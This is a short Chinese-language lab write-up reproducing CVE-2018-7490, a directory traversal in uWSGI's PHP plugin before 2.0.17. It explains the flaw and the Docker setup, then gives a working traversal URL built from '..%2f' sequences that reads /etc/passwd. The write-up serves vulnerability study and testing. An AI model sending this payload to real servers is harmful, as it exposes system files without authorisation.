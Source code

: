 # uWSGI PHP目录穿越漏洞 CVE-2018-7490

## 漏洞描述

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI 2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

## 环境搭建

运行存在漏洞的uWSGI服务器：

```
docker-compose up -d
```

运行完成后，访问`http://your-ip:8080/index.php`即可看到phpinfo信息，说明uwsgi-php服务器已成功运行。

![image-20220302163241788](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021632153.png)

## 漏洞复现

访问`http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![image-20220302163149769](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021631956.png)

